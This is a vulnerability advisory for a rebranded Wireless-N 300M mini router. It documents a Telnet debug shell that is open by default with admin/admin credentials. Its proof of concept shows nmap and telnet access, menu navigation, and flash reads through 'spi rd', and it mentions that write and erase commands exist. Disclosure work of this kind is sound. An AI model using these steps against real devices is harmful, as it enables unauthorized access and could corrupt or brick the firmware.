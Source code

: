# CVE-2025-57428 - Telnet debug interface enabled by default allows low-level flash/register access

## Affected Product
- Vendor/Brand: Each Italy
- Device: Wireless Mini Router WIRELESS-N 300M
- Firmware: v28K.MiniRouter.20190211

## Summary
<img src="images/wireless_n_mini_router.jpg" height="180" width="160" align="right"/>
This device exposes a Telnet debug interface (enabled by default on port 23) and accepts admin credentials (`admin`/`admin` by default). After authentication the shell provides direct access to low-level commands (notably `spi` and `reg`), which may lead to arbitrary firmware corruption, device bricking and loss of functionality or security configuration.
<br/>
<br/>
<br/>

## Proof of Concept
> **Note:** I intentionally omit commands that perform destructive writes. The PoC below confirms existence and accessibility of the interface without providing a ready weaponized exploit.

1. Scan the device on the LAN:

   ```bash
   nmap -p 23 <device-ip>
   ```

   Result: port 23 (telnet) shows `open`.

2. Connect via Telnet and authenticate (default credentials):

   ```bash
   telnet <device-ip>
   # Login as: admin
   # Password: admin
   ```

   After login, a debug prompt is presented `CMD>`.

3. List available commands:

   ```bash
   CMD>help
   ```

   The help output shows the following menus:

   ```bash
   cfg         net         os
   ```

   Enter in the `os` menu:

   ```bash
   CMD>os
   ```
   
   List available commands again:

   ```bash
   OS>help
   ```

   This time the help output shows the following commands:

   ```bash
   thread      mem         spi         reg         cpuload     cpubusy     event
   ```

   Using `spi` shows `spi <rd/wr/er> <addr> [len]`.

4. Read flash memory:

   ```bash
   OS>spi rd 0x000fd0f0 16
   ```

   This returns a hex dump of the flash region:

   ```bash
   4f30650a 938f56fa 1b663a19 e316d824
   ```

   This confirms that the command works and the shell has low-level access.
   The write command (`spi wr`) and the erase command (`spi er`), as well as the `reg` commands, are also executable.

<img src="images/poc.png"/>

Observations:
   - Changing the admin password via the web interface also changes Telnet credentials, indicating shared credentials.
   - Telnet remains enabled by default after initial setup.

## Vendor Communication
Attempts to find any security contact or support channel of the original vendor were unsuccessful. The product appears to be a rebranded device of unknown origin.

## Disclaimer
This information is provided for educational and defensive purposes only. The author takes no responsibility for any misuse of this information.